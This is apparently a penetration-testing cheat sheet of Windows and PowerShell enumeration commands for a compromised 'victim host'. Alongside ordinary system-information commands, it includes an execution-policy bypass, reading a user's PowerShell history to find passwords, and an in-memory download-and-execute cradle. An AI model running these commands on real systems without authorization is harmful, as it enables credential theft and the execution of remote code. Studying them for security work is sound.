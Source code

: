 #### Basic Enumeration Commands

|**Command**|**Result**|
|---|---|
|`hostname`|Prints the PC's Name|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`set %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|

PowerShell Commands

|**Cmd-Let**|**Description**|
|---|---|
|`Get-Module`|Lists available modules loaded for use.|
|`Get-ExecutionPolicy -List`|Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.|
|`Set-ExecutionPolicy Bypass -Scope Process`|This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.|
|`Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`|With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.|
|`Get-ChildItem Env: \| ft Key,Value`|Return environment values such as key paths, users, computer information, etc.|
|`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`|This is a quick and easy way to download a file from the web using PowerShell and call it from memory.|